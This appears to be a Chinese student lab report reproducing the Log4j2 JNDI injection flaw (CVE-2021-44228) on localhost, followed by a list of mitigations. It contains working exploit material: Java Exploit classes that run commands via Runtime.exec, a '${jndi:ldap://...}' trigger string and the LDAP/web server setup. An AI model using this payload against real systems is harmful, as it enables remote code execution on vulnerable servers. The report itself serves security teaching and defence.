 
## 1 实验过程 / 代码补充 / 攻击结果

### 1.1 本地触发 Log4j 2 漏洞，弹出计算器

#### 1.1.1 环境配置
下面是配置 marshalsec 的截图；其他都已经配过了：
![image.png](./assets/1651193668841-b4564a72-5915-4e3a-9f8a-31f2b29bd35b.png)

#### 1.1.2 编写 Exploit 类代码并编译
```java
import java.io.IOException;

public class Exploit {
	static {
		System.out.println("Run script!");
		System.out.println("Attack!");
        try {
            java.lang.Runtime.getRuntime().exec("calc").waitFor();
        } catch (Exception e){
            e.printStackTrace();
        }
    }
}
```
![image.png](./assets/1651207377561-99d61dac-7be4-445f-83f4-817e0e23133c.png)

#### 1.1.3 启动 LDAP 服务和 Web 服务
![image.png](./assets/1651193700491-3d27f441-f2da-4622-99b1-d32eaab59ecd.png)
![image.png](./assets/1651193868686-d17118e8-174a-4b27-aa0d-e21ac10d531a.png)

#### 1.1.4 调用 Log4j 从而触发漏洞
编写如下调用代码：
```java
public class Log4j {
    private static final Logger LOGGER = LogManager.getLogger(Log4j.class);
    public static void main(String[] args) {
        LOGGER.error("${jndi:ldap://127.0.0.1:1389/Exploit}");
    }
}
```
但是，出现了如下的错误提示：
![image.png](./assets/1651201785230-5337cd57-274c-452c-ac7b-88b9acfdea43.png)

Google 后找到了如下的 issue：<br />[https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce/issues/1](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce/issues/1)
issue 中主要提到两个方面的问题，分别是 JDK 版本问题和关于 `**trustURLCodebase**` 的问题。查询资料后得知：
> 在 JDK 8u121 及其之后版本中，系统属性 **com.sun.jndi.rmi.object.trustURLCodebase **默认值为 **false**，即默认不允许从远程的 Codebase 加载 Reference 工厂类

因此版本过高可能不能成功加载，因此我一方面在 `Log4j.main` 中增加了 `System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");`，另一方面也尝试了换用 1.7.0_80 和 1.8.0_202 两个版本分别编译 Log4j 和 Exploit，但是还是失败了。

和助教讨论后，助教指出可能是之前的 Web 服务没有正常运行。我尝试在浏览器中访问 127.0.0.1:8100，发现果然无法访问。我将 `python` 改为 `python3` 之后便可以正常访问了。
![image.png](./assets/1651206766906-b562084e-32e0-4f6a-b6a0-59850527628b.png)
（这里更改了端口号，在 LDAP 服务中也对应更改了。）


#### 1.1.5 成功！
终于成功了！通过该漏洞调用了计算器：
![image.png](./assets/1651206752460-66100f64-8e41-4853-b743-320b32b684e3.png)


### 1.2 在 Java Web 项目中触发漏洞

#### 1.2.1 环境配置
启动 Redis 服务，端口号是 6379：
![image.png](./assets/1651236155472-affd1da1-b4ce-40a8-8f60-c3e323c04b66.png)
运行 MySQL 并运行所给脚本，更新 application.properties（略）


#### 1.2.2 编写 Exploit 类代码并编译
在路径 F:\GitFiles\CourseData\3_2\SysSec\Lab1\syssec22\src\lab1 中编写代码并编译：
```java
import java.io.IOException;

public class Exploit {
    static {
		System.out.println("Run script!");
		System.out.println("Attack!");
        try {
            java.lang.Runtime.getRuntime().exec("python3 -m http.server 8866").waitFor();
        } catch (Exception e){
            e.printStackTrace();
        }
    }
}
```
![image.png](./assets/1651236540846-b30e759b-5d59-4b18-ae16-e90fa6e5c492.png)
即，当 Exploit 类被访问时，会在路径 host 一个 web 服务，端口号是 8866。

#### 1.2.3 启动 LDAP 服务和 Web 服务
在 Exploit 代码所在路径启动一个 web 服务，端口号为 8888：
![image.png](./assets/1651236618299-2c7faefc-619f-4945-b293-3bdcd4998fa4.png)
启动一个 LDAP 服务：
![image.png](./assets/1651236581170-30c3921a-2e8f-4e4c-b413-349e021bae22.png)

#### 1.2.4 攻击！
在登录界面键入如下的用户名：
![image.png](./assets/1651236078182-32f38a19-25fb-4056-96fd-a54e212b5e91.png)
可以看到，LDAP 出现了相应的查询信息：
![image.png](./assets/1651236096823-e5d3dfa4-38bf-4eb6-98b9-bba820988281.png)
![image.png](./assets/1651236055919-47f385dd-af2a-4b99-84b9-88aac0fdd209.png)

#### 1.2.5 成功！
尝试在浏览器访问 `127.0.0.1:8866`，可以看到我们已经可以访问本地文件：
![image.png](./assets/1651236063764-fbf383c5-82dd-4d04-8e63-34de49427aef.png)
![image.png](./assets/1651236453017-70157615-45d5-4c40-a9d4-d31871cbce51.png)

## 2 如何防护 Apache Log4j2 漏洞

1. 首先，最方便的方法是，更新 Log4j 到解决了这一漏洞的版本。
2. 从 1.1.4 中我们解决问题的过程中也可以知道，提高 JDK 版本可以解决这一问题，因为
> 在 JDK 8u121 及其之后版本中，系统属性 **com.sun.jndi.rmi.object.trustURLCodebase **默认值为 **false**，即默认不允许从远程的 Codebase 加载 Reference 工厂类

3. 当然，我们也可以通过 `System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","false");` 来显式实现这一禁用；
4. 我们也可以在查询中进行 filter 或者 escape，禁止包含一些 pattern 的查询，或者对查询做一些转义；当然，这里前者很容易被绕过，而后者可能需要对 LDAP 等服务也做修改；
5. 我们也可以禁用 Log4j 中的 lookup 功能。从 1.1.4 中提到的 issue 中得知，我们可以通过添加 JVM 启动参数`-Dlog4j2.formatMsgNoLookups=true`或者添加`log4j2.component.properties` 配置文件并添加配置`log4j2.formatMsgNoLookups=true`来实现。
